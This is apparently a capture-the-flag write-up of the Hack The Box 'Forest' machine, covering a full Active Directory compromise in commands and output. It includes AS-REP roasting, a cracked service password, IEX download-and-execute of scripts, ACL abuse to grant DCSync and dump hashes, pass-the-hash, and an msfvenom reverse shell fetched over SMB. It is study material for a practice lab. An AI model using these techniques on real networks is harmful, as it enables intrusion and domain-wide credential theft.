








# [Forest](https://app.hackthebox.eu/machines/212)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.161 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.161 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.161
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.161
```

The TCP quick scan returns the following:


Not much to see here? Enumerate Windows RPC:

```bash
rpcclient -U '' -N 10.10.10.161 # empty username & no password
querydispinfo # list users
enumdomusers  # list users
```

Looking at this output shows some wins:


There are a lot of users here. The unique ones are as follows:

```
svc-alfresco
andy
lucinda
mark
santi
sebastien
Administrator
```

The `krbtgt` is interesting as it usually only applies to a DC? Try getting domain info:

```bash
enumdomains   # list domains
querydominfo  # domain info
```



So the domain is `HTB.local`. See what groups are there:

- https://en.wikipedia.org/wiki/.local

```bash
enumdomgroups # list groups
```


Yep, this is definitely a DC. Check the domain using DNS:

```bash
nslookup
set type=ANY
server 10.10.10.161
_ldap._tcp.dc._msdcs.htb.local
forest.htb.local
```


So the owner of the `htb.local` domain is `10.10.10.161` with the name `forest.htb.local`. Looking at the output from the full TCP `nmap` scan does not show any non-DC related ports that could be targeted... From here the options are to try bruteforcing the users over WinRM using `crackmapexec`:

- https://mpgn.gitbook.io/crackmapexec/getting-started/installation/installation-for-docker
- **NOTE:** UGH! Had issues running the default Kali install of `crackmapexec` due to some `RuntimeWarning: greenlet.greenlet` error? However, using the Docker one works well...

```bash
# create list of users
echo 'svc-alfresco'   > users.txt
echo 'andy'          >> users.txt
echo 'lucinda'       >> users.txt
echo 'mark'          >> users.txt
echo 'santi'         >> users.txt
echo 'sebastien'     >> users.txt
echo 'Administrator' >> users.txt
# copy over the word list 
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
# download and run the container
sudo docker run -it --entrypoint=/bin/sh --name crackmapexec -v ~/.cme:/root/.cme -v $(pwd):/htb byt3bl33d3r/crackmapexec
# start bruteforce
cme winrm 10.10.10.161 -u /htb/users.txt -p /htb/rockyou.txt
```

But this will run for a while... Since this is a DC, the following resource is helpful for ideas on what to enumerate:

- https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html

One thing to check for is AS-REP Roasting. Since a list of users is given, check if any of them allow for this attack:

- https://www.hackingarticles.in/as-rep-roasting/

> If the user has “Do not use Kerberos pre-authentication” enabled, then an attacker can recover a Kerberos  AS-REP encrypted with the users RC4-HMAC’d password and he can attempt to crack this ticket offline.

The rest of the attacks require a domain joined PC (like with Kerberoasting) or cracked domain account credentials. Test for this configuration as follows:

```bash
find / -iname GetNPUsers.py 2>/dev/null
/usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/ -format hashcat -usersfile users.txt -dc-ip 10.10.10.161 -no-pass -k
```


Nice! It seems like the `svc-alfresco` is vulnerable to AS-REP Roasting. Try cracking the above hash:

- https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
# save above hash in dc.hash
hashcat -m 18200 -a 0 --quiet --potfile-disable dc.hash rockyou.txt
```

And this results in a win!



The output from the full TCP `nmap` scan shows that a WinRM port is open:

- 5985/tcp (HTTP) **this one is open**
- 5986/tcp (HTTPS)

Connect to this from Kali using PowerShell:

```bash
# install client
sudo apt update
sudo apt install powershell
pwsh
```

Use the credentials `svc-alfresco@htb.local/s3rvice` to connect:

```powershell
$creds = Get-Credential # svc-alfresco@htb.local/s3rvice
Enter-PSSession -ComputerName 10.10.10.161 -Authentication Negotiate -Credential $creds
Get-ChildItem -Path c:\ -Filter user.txt -Recurse -ErrorAction SilentlyContinue -Force
```

And that access provides `user.txt`:


From here, it seems like the machine does not have any unique installed/running software that looks vulnerable and the current user `svc-alfresco` does not have any unique permissions to take advantage of... Maybe the next step is to move laterally in the domain? Enumerate the domain and save the following PowerShell in `bubba`:

```powershell
$d=[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain();
$q=("LDAP://"+($d.PdcRoleOwner).Name+"/DC="+($d.Name.Replace('.',',DC=')));
$s=New-Object System.DirectoryServices.DirectorySearcher([ADSI]$q);
$s.SearchRoot=(New-Object System.DirectoryServices.DirectoryEntry);
write-host "-- COMPUTERS --";
$s.filter="(objectCategory=computer)";$s.FindAll()|?{write-host $_.Path};
write-host "-- USERS --";
$s.filter="(objectCategory=person)";$s.FindAll()|?{write-host $_.Path};
write-host "-- SERVICES --";
$s.filter="(serviceprincipalname=*)";$s.FindAll()|?{write-host $_.Path};
write-host "-- GROUPS --";
$s.filter="(objectCategory=group)";$s.FindAll()|?{write-host $_.Path};
write-host "-- MEMBERSHIP --";
function _r {
  param($o,$m);
  if ($o.Properties.member -ne $null) {
    $lm=[System.Collections.ArrayList]@();
    $o.Properties.member|?{$lm.add($_.split(",")[0].replace("CN=",""))};
    $lm=$lm|select -unique;
    $m.add((New-Object psobject -Property @{
      OU = $o.Properties.name[0]
      M = [string]::Join(", ",$lm)
    }));
    $lm | ?{
      $s.filter=[string]::Format("(name={0})",$_);
      $s.FindAll()|?{_r $_ $m | out-null};
    }
  }
}
$m=[System.Collections.ArrayList]@();
$s.FindAll()|?{_r $_ $m | out-null};
$m|sort-object OU -unique|?{write-host ([string]::Format("[OU] {0}: {1}",$_.OU,$_.M))};
```

Then host and execute on the target through WinRM:

```bash
# on kali, host payload
sudo python3 -m http.server 80
# in target WinRM session, execute payload
IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.27/bubba')
```

This will return the following:

```
-- COMPUTERS --
LDAP://CN=FOREST,OU=Domain Controllers,DC=htb,DC=local
LDAP://CN=EXCH01,CN=Computers,DC=htb,DC=local
-- USERS --
LDAP://CN=Administrator,CN=Users,DC=htb,DC=local
LDAP://CN=Guest,CN=Users,DC=htb,DC=local
LDAP://CN=DefaultAccount,CN=Users,DC=htb,DC=local
LDAP://CN=krbtgt,CN=Users,DC=htb,DC=local
LDAP://CN=Exchange Online-ApplicationAccount,CN=Users,DC=htb,DC=local
LDAP://CN=SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1},CN=Users,DC=htb,DC=local
LDAP://CN=SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c},CN=Users,DC=htb,DC=local
LDAP://CN=SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9},CN=Users,DC=htb,DC=local
LDAP://CN=DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852},CN=Users,DC=htb,DC=local
LDAP://CN=Migration.8f3e7716-2011-43e4-96b1-aba62d229136,CN=Users,DC=htb,DC=local
LDAP://CN=FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042,CN=Users,DC=htb,DC=local
LDAP://CN=SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201},CN=Users,DC=htb,DC=local
LDAP://CN=SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA},CN=Users,DC=htb,DC=local
LDAP://CN=SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9},CN=Users,DC=htb,DC=local
LDAP://CN=HealthMailboxc3d7722415ad41a5b19e3e00e165edbe,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailboxfc9daad117b84fe08b081886bd8a5a50,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailboxc0a90c97d4994429b15003d6a518f3f5,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailbox670628ec4dd64321acfdf6e67db3a2d8,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailbox968e74dd3edb414cb4018376e7dd95ba,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailbox6ded67848a234577a1756e072081d01f,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailbox83d6781be36b4bbf8893b03c2ee379ab,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailboxfd87238e536e49e08738480d300e3772,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailboxb01ac647a64648d2a5fa21df27058a24,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailbox7108a4e350f84b32a7a90d8e718f78cf,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=HealthMailbox0659cc188f4c4f9f978f6c2142c4181e,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=Sebastien Caron,OU=Exchange Administrators,OU=Information Technology,OU=Employees,DC=htb,DC=local
LDAP://CN=Lucinda Berger,OU=IT Management,OU=Information Technology,OU=Employees,DC=htb,DC=local
LDAP://CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local
LDAP://CN=Andy Hislip,OU=Helpdesk,OU=Information Technology,OU=Employees,DC=htb,DC=local
LDAP://CN=Mark Brandt,OU=Sysadmins,OU=Information Technology,OU=Employees,DC=htb,DC=local
LDAP://CN=Santi Rodriguez,OU=Developers,OU=Information Technology,OU=Employees,DC=htb,DC=local
-- SERVICES --
LDAP://CN=FOREST,OU=Domain Controllers,DC=htb,DC=local
LDAP://CN=EXCH01,CN=Computers,DC=htb,DC=local
LDAP://CN=krbtgt,CN=Users,DC=htb,DC=local
-- GROUPS --
LDAP://CN=Administrators,CN=Builtin,DC=htb,DC=local
LDAP://CN=Users,CN=Builtin,DC=htb,DC=local
LDAP://CN=Guests,CN=Builtin,DC=htb,DC=local
LDAP://CN=Print Operators,CN=Builtin,DC=htb,DC=local
LDAP://CN=Backup Operators,CN=Builtin,DC=htb,DC=local
LDAP://CN=Replicator,CN=Builtin,DC=htb,DC=local
LDAP://CN=Remote Desktop Users,CN=Builtin,DC=htb,DC=local
LDAP://CN=Network Configuration Operators,CN=Builtin,DC=htb,DC=local
LDAP://CN=Performance Monitor Users,CN=Builtin,DC=htb,DC=local
LDAP://CN=Performance Log Users,CN=Builtin,DC=htb,DC=local
LDAP://CN=Distributed COM Users,CN=Builtin,DC=htb,DC=local
LDAP://CN=IIS_IUSRS,CN=Builtin,DC=htb,DC=local
LDAP://CN=Cryptographic Operators,CN=Builtin,DC=htb,DC=local
LDAP://CN=Event Log Readers,CN=Builtin,DC=htb,DC=local
LDAP://CN=Certificate Service DCOM Access,CN=Builtin,DC=htb,DC=local
LDAP://CN=RDS Remote Access Servers,CN=Builtin,DC=htb,DC=local
LDAP://CN=RDS Endpoint Servers,CN=Builtin,DC=htb,DC=local
LDAP://CN=RDS Management Servers,CN=Builtin,DC=htb,DC=local
LDAP://CN=Hyper-V Administrators,CN=Builtin,DC=htb,DC=local
LDAP://CN=Access Control Assistance Operators,CN=Builtin,DC=htb,DC=local
LDAP://CN=Remote Management Users,CN=Builtin,DC=htb,DC=local
LDAP://CN=System Managed Accounts Group,CN=Builtin,DC=htb,DC=local
LDAP://CN=Storage Replica Administrators,CN=Builtin,DC=htb,DC=local
LDAP://CN=Domain Computers,CN=Users,DC=htb,DC=local
LDAP://CN=Domain Controllers,CN=Users,DC=htb,DC=local
LDAP://CN=Schema Admins,CN=Users,DC=htb,DC=local
LDAP://CN=Enterprise Admins,CN=Users,DC=htb,DC=local
LDAP://CN=Cert Publishers,CN=Users,DC=htb,DC=local
LDAP://CN=Domain Admins,CN=Users,DC=htb,DC=local
LDAP://CN=Domain Users,CN=Users,DC=htb,DC=local
LDAP://CN=Domain Guests,CN=Users,DC=htb,DC=local
LDAP://CN=Group Policy Creator Owners,CN=Users,DC=htb,DC=local
LDAP://CN=RAS and IAS Servers,CN=Users,DC=htb,DC=local
LDAP://CN=Server Operators,CN=Builtin,DC=htb,DC=local
LDAP://CN=Account Operators,CN=Builtin,DC=htb,DC=local
LDAP://CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=htb,DC=local
LDAP://CN=Incoming Forest Trust Builders,CN=Builtin,DC=htb,DC=local
LDAP://CN=Windows Authorization Access Group,CN=Builtin,DC=htb,DC=local
LDAP://CN=Terminal Server License Servers,CN=Builtin,DC=htb,DC=local
LDAP://CN=Allowed RODC Password Replication Group,CN=Users,DC=htb,DC=local
LDAP://CN=Denied RODC Password Replication Group,CN=Users,DC=htb,DC=local
LDAP://CN=Read-only Domain Controllers,CN=Users,DC=htb,DC=local
LDAP://CN=Enterprise Read-only Domain Controllers,CN=Users,DC=htb,DC=local
LDAP://CN=Cloneable Domain Controllers,CN=Users,DC=htb,DC=local
LDAP://CN=Protected Users,CN=Users,DC=htb,DC=local
LDAP://CN=Key Admins,CN=Users,DC=htb,DC=local
LDAP://CN=Enterprise Key Admins,CN=Users,DC=htb,DC=local
LDAP://CN=DnsAdmins,CN=Users,DC=htb,DC=local
LDAP://CN=DnsUpdateProxy,CN=Users,DC=htb,DC=local
LDAP://CN=Organization Management,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Recipient Management,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=View-Only Organization Management,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Public Folder Management,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=UM Management,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Help Desk,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Records Management,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Discovery Management,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Server Management,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Delegated Setup,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Hygiene Management,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Compliance Management,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Security Reader,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Security Administrator,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Exchange Servers,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Managed Availability Servers,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
LDAP://CN=Exchange Install Domain Servers,CN=Microsoft Exchange System Objects,DC=htb,DC=local
LDAP://CN=Service Accounts,OU=Security Groups,DC=htb,DC=local
LDAP://CN=Privileged IT Accounts,OU=Security Groups,DC=htb,DC=local
LDAP://CN=test,OU=Security Groups,DC=htb,DC=local
-- MEMBERSHIP --
[OU] Account Operators: Privileged IT Accounts
[OU] Administrators: Domain Admins, Enterprise Admins, Administrator
[OU] Denied RODC Password Replication Group: Read-only Domain Controllers, Group Policy Creator Owners, Domain Admins, Cert Publishers, Enterprise Admins, Schema Admins, Domain Controllers, krbtgt
[OU] Domain Admins: Administrator
[OU] Enterprise Admins: Administrator
[OU] Exchange Install Domain Servers: EXCH01
[OU] Exchange Servers: Exchange Install Domain Servers, EXCH01
[OU] Exchange Trusted Subsystem: EXCH01
[OU] Exchange Windows Permissions: Exchange Trusted Subsystem
[OU] Group Policy Creator Owners: Administrator
[OU] Guests: Domain Guests, Guest
[OU] IIS_IUSRS: S-1-5-17
[OU] Managed Availability Servers: Exchange Servers, EXCH01
[OU] Organization Management: Administrator
[OU] Pre-Windows 2000 Compatible Access: S-1-1-0, S-1-5-7
[OU] Privileged IT Accounts: Service Accounts
[OU] Remote Management Users: Privileged IT Accounts
[OU] Schema Admins: Administrator
[OU] Service Accounts: svc-alfresco
[OU] System Managed Accounts Group: DefaultAccount
[OU] Users: Domain Users, S-1-5-11, S-1-5-4
[OU] Windows Authorization Access Group: Exchange Servers, S-1-5-9
```

Looking at this, there is an interesting feature. `svc-alfresco` is a member of `Service Accounts` and `Service Accounts` is a member of `Privileged IT Accounts`. Then `Privileged IT Accounts` is a member of `Account Operators`. This is a powerful default Windows domain group:

- https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#active-directory-default-security-groups-by-operating-system-version
- https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#account-operators

It allows the following:

- Allows creating non administrator accounts and groups on the domain
- allows logging in to the DC locally

However, this aslone is not enough to escalate privileges. There are some unique groups that are not common ones in AD for Windows:

```
Exchange Install Domain Servers
Exchange Servers
Exchange Trusted Subsystem
Exchange Windows Permissions
```

Maybe these accounts have unique permissions? To test this, more functionality is needed. Download and run PowerView on the target:

```bash
# on kali, download a copy of the script
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1
# on kali, host payload
sudo python3 -m http.server 80
# in target WinRM session, execute payload
IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.27/PowerView.ps1');
```

Then from here, the following is are good guides for the tool:

- https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet
- https://powersploit.readthedocs.io/en/latest/Recon/#powerview

To enumerate domain ACLs, the `Find-InterestingDomainAcl` is used:

- https://powersploit.readthedocs.io/en/latest/Recon/Find-InterestingDomainAcl/

This, when run alone, will return a lot of output. It is better to know what to look for:

- https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse

```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ? {
  ($_.ActiveDirectoryRights -contains "Self") -or 
  ($_.ActiveDirectoryRights -contains "WriteDACL") -or 
  ($_.ActiveDirectoryRights -contains "WriteOwner") -or
  (($_.ObjectAceType -contains "All") -and 
   ($_.ActiveDirectoryRights -contains "GenericAll")) -or 
  (($_.ObjectAceType -contains "All") -and 
   ($_.ActiveDirectoryRights -contains "WriteProperty")) -or 
  (($_.ObjectAceType -contains "User-Force-Change-Password") -and 
   ($_.ActiveDirectoryRights -contains "ExtendedRight"))
}
```



This will run for a while and return a lot of results. However, the first hits at the top of the list are juicy. The output states that the groups `Exchange Windows Permissions` and `Exchange Trusted Subsystem` have the ability to change the password of other users without needing to know the old password first. Combining this with the power of the `Account Operators` group means that it is possible to add `svc-alfresco` to the `Exchange Trusted Subsystem` group to then reset the password of the domain admin:

```bash
net group "Exchange Trusted Subsystem" svc-alfresco /add /domain
net user administrator bubbagump123! /domain
```

However this results in `Access is denied`? The following works for other domain users?

```bash
net user sebastien bubbagump123! /domain
```

I guess this method would be helpful if there was some other user in the `Administrators` OU? Next, find another method by running the following PowerShell over WinRM:

```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ? {
  ($_.ActiveDirectoryRights -contains "Self") -or 
  ($_.ActiveDirectoryRights -contains "WriteDACL") -or 
  ($_.ActiveDirectoryRights -contains "WriteOwner") -or
  (($_.ObjectAceType -contains "All") -and 
   ($_.ActiveDirectoryRights -contains "GenericAll")) -or 
  (($_.ObjectAceType -contains "All") -and 
   ($_.ActiveDirectoryRights -contains "WriteProperty"))
}
```



There is another juicy DACL `WriteDacl` for `All` on `htb.local`. This means that a user in this group can add **any** DACL to the group they choose:

- https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=dotnet-plat-ext-5.0#fields

With this, it is possible to pull off a DCsync attack:

- https://book.hacktricks.xyz/windows/active-directory-methodology/dcsync
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync

This will require adding the following DACLs to the `Exchange Trusted Subsystem` OU:

- https://docs.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes
- https://docs.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-all
- https://docs.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-in-filtered-set

The combination of all 3 DACLs allows for users in the group to ask the DC to "sync" and dump the hashes of all users on the domain. Use PowerView to give these rights to the user `svc-alfresco` over the WinRM connection to the target:

- **NOTE:** This assumes `svc-alfresco` has already be added to `Exchange Trusted Subsystem`
- https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/

```powershell
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync -Verbose
```

However, this returns the following error:


Even though the `svc-alfresco` is in the `Exchange Trusted Subsystem` group, the command is failing? Try making a new user and using that account:

```powershell
net user bubba gump123! /add /domain
net group "Exchange Trusted Subsystem" bubba /add /domain
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bubba -Rights DCSync -Verbose
```

But this has the same error?? Try manually creating the credential object in PowerShell:

```powershell
$pass = ConvertTo-SecureString 'gump123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\bubba',$pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bubba -Rights DCSync -Verbose
```

And this finally works:

- **NOTE:** It still could not work for the `svc-alfresco` account though...



With this, it is possible to dump the hashes on the system from Kali:

```bash
impacket-secretsdump htb.local/bubba:'gump123!'@10.10.10.161
```


Then use the NTLM hash of `htb.local\Administrator` to login:

```bash
wmiexec.py -hashes "aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6" \
  administrator@10.10.10.161 whoami
```



Use this to get a shell on the target:

```bash
# generate payload
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
# host payload over SMB
sudo impacket-smbserver BUBBA .
# start listener
rlwrap nc -nvlp 6969
# send command to download and execute
wmiexec.py -hashes "aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6" \
  administrator@10.10.10.161 'cmd.exe /c start /b \\10.10.14.27\BUBBA\bubba.exe'
```

And this gives a dedicated shell:



From here there are some fun learning opportunities:

